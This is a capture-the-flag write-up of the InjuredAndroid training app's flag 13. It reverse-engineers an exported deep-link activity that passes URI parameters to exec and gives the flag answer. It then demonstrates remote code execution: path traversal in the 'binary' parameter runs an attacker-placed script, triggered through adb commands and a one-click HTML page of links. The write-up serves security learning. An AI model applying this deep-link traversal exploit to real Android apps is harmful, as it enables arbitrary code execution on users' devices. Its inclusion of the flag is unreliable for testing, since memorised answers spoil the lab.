First, let's have a look on the `AndroidManifest.xml`:



We can see it have some basic uri build, something like `flag13://rce`.

Next, let's check the `onCreate` function, at the class `RCEActivity`:



First, it fetches 3 parameters from the URI that was given with the intent, `binary` `param` and `combined`.

The first two parameters will build the string that is gonna be sent into the `exec` function, the string will be: basePath + binary + " " + param.

The third parameter will hold our input, that get send to the function which compare it to the flag.



We can see that at the bottom of the previous image, it also log the error message, let's create intent and capture the error message:

```bash
adb shell am start -n "b3nac.injuredandroid/.RCEActivity" -d "'http://google.com/?binary=testBin&param=testParam'"
```

and to capture the logs:

```bash
adb logcat "*:E" --pid="$(adb shell pidof b3nac.injuredandroid)"
```



Notice that I use the url `http://google.com`, it doesn't matter what i use, it only checks for the parameters.

Anyway, we can see it actually tried to execute some file located at `/data/user/0/b3nac.injuredandroid/files/testBin`, let's search whether there is some hidden file on this location:



We can see those two `narnia` files, which are `ELF` files, binary executable. Let's reverse engineering the `x86_64` version using *Ghidra*.

The file was originally wrote in `go`, however, it decompiles pretty well to `C`:



We can see here that it checks if there is at least one argument (remember, argv[0] = filename).
It puts the parameter inside `puVar3`, and then checks if it equal to something, let's use *CyberChef* to convert if from hex:



It might look confusing, this is because it uses Little Endian. This string is actually `--help`, let's try to give this string now: `http://google.com/?binary=narnia.arm64&param=--help`



We'll, we got this message:
```
Available commands are testOne, rick, testTwo, potato, testThree
```

After giving all trying all those commands, by giving them one by one at the parameter, I came to conclusion that the flag is consisted of the values being output by `testOne`, `testTwo` and `testThree`, the final flag will be **`Treasure_Planet`**



More advanced, we can use the specific intent filter to create some html page that will be used to do the same operation:

```html
<html>
<p><a href="notWorking://rce/?binary=narnia.arm64&param=rick">Broken schema</p>
<p><a href="flag13://rce/?binary=narnia.arm64&param=rick">Get RickRolled!</p>
<p><a href="flag13://rce/?combined=Treasure_Planet">Submit Flag</p>
<html>
```

Let's put it inside `/sdcard/test.html`:

```bash
adb push test.html /sdcard/test.html
```

Now, just open it on the emulator, from the files. One clicking, it should execute the right intent and output the desired output. It being recognized by the intent-filter, if not, it'll say something like `No application can open this link`, which happens when we press the broken schema.


Now, we want to think more about the `RCE`. As we remember, we can execute files from the directory `/data/user/0/b3nac.injuredandroid/files/`, however, what happens if we give some input like `../../../../../../../../system/bin/ls`, or even to somewhere we control? We basically using `LFI` to execute arbitrary files.

Let's create this script:

```bash
#!/system/bin/sh

echo "Hello there, I'm $(whoami)" >> /data/data/b3nac.injuredandroid/files/PoC.txt

```

Put it inside `/data/local/tmp/script.sh`, and make it executable:


Notice, this doesn't require root, so every application can write in this location files.

Now, let's trigger this script, and get the RCE, I'll put this input inside `test.html`:

```html
<html>
<p><a href="flag13://rce/?binary=../../../../../../../../data/local/tmp/script">Click ME :)</p>
<html>
```

Notice we can write only to the internal storage of the application, trying to write from the application to `/sdcard` or to `/data/local/tmp` is restricted, or not allowed at all.

So, first way to trigger the exploit is using `adb`:

```bash
adb shell am start -a "android.intent.action.VIEW" -d "'flag13://rce/?binary=../../../../../../../../data/local/tmp/script'"
```

The second way will be through `test.html`, after trying both ways, I got this:



It worked!

